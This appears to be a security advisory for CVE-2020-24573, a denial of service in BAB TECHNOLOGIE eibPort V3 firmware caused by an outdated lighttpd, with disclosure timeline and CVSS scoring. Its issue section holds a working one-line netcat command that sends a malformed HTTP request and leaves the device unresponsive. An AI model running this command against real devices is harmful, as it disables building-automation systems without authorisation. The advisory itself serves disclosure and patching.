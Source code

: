 ```yaml
---
layout: post
title:  "CVE-2020-24573 BAB TECHNOLOGIE GmbH eibPort V3 prior version 3.8.3 Denial of Service"
datetime: 2020-08-20 20:00:00 MEST
last_modified_at: 2021-03-16 23:25:00 MET
author: 'psytester'
---
```


# Overview

- CVE: CVE-2020-24573
- Author: psytester
- Title: BAB TECHNOLOGIE GmbH eibPort V3 prior version 3.8.3 Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 11.11.2020
- Updated: 16.03.2021
- Vendor: BAB TECHNOLOGIE GmbH
- Product: eibPort V3
- Vendor contacted: 12.08.2020
- Vendor confirmation: 27.08.2020
- Vendor patch: 3.8.3 since November 2020, lighttpd was updated to 1.4.55
- Vendor Reference: N.A.
- Affected Firmware version: 3.8.2 and before


# Background

From [vendor's website](https://bab-technologie.com/eibport/?lang=en):<br>
The EIBPORT connects KNX or EnOcean building control with the IP world.<br>
[...]<br>
Whether simple or complex – use over 50 integrated services for almost all automation tasks in building automation. Program your own control sequences with the graphical LOGIKEDITOR or integrate third-party applications such as Amazon® Alexa.
[...]<br>
Via a secure connection, you can also control and maintain the EIBPORT remotely.
[...]<br>
On request, the EIBPORT also functions as an IP router in the KNX installation and as a programming interface to the ETS.<br>
[...]


# Issue Description

Connecting to eibPort URL shows HTTP header `Server: lighttpd/1.4.31`

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the eibPort does not react anymore, because the resources are used up:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.


# CVE

[CVE-2020-24573](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24573)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H


# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them and lighttpd/1.4.31 is a low hanging fruit in IoT devices.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
